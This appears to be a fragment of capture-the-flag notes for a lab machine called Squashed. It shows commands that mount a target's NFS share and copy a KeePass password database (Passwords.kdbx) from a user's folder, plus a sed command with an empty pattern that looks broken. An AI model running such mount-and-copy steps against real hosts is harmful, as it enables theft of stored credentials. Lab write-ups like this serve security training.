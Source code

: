 # Squashed CMD-by-CMDs

```bash
sed -i 's///g' *-CMD-by-CMDs.md
```

```bash
sudo mount -t nfs -o rw,vers=4 10.10.11.191:/home/ross /mnt/ -nolock
cp /mnt/Documents/Passwords.kdbx .




```


